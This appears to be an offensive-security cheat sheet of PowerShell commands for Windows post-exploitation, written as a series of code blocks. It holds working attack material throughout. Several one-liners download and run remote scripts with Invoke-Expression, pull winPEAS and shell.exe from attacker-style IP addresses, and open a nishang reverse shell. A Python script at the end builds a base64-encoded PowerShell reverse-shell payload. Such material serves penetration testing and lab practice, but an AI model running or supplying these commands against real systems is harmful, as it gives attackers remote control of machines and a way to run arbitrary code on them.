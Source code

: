 
### HTTP Requests

```powershell
# Invoke-WebRequest
PS C:\> IWR 'https://example.com/files/backup.zip' -OutFile C:\backup.zip
```

```powershell
PS C:\> wget http://10.9.52.138:8000/winPEASx64.exe -outfile winPEASx64.exe
```

### Run a PowerShell expression

```powershell
# Invoke-Expression
PS C:\> IEX(IWR 'http://10.10.10.10:8000/revshell.ps1')

C:\> powershell.exe -EncodedCommand <base64>
```

Example with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

```powershell
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1')
PS C:\> Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 8080
```

```powershell
C:\> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.52.138:8000/shell.exe','shell.exe')"
C:\> .\shell.exe
PS C:\> Start-Process "shell.exe"
```

### Reverse shell generator (powershell & base64)

```python
#!/usr/bin/env python3
from sys import argv
from base64 import b64encode


if __name__ == '__main__':
    if len(argv) < 2:
        print(f"{argv[0]} <IP> <PORT>")
        exit()

    ip, port = argv[1], argv[2]
    payload = '$client = New-Object System.Net.Sockets.TCPClient("' + ip + '",' + port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
    cmdline = "powershell.exe -e " + b64encode(payload.encode('utf16')[2:]).decode()
    print(cmdline)
```
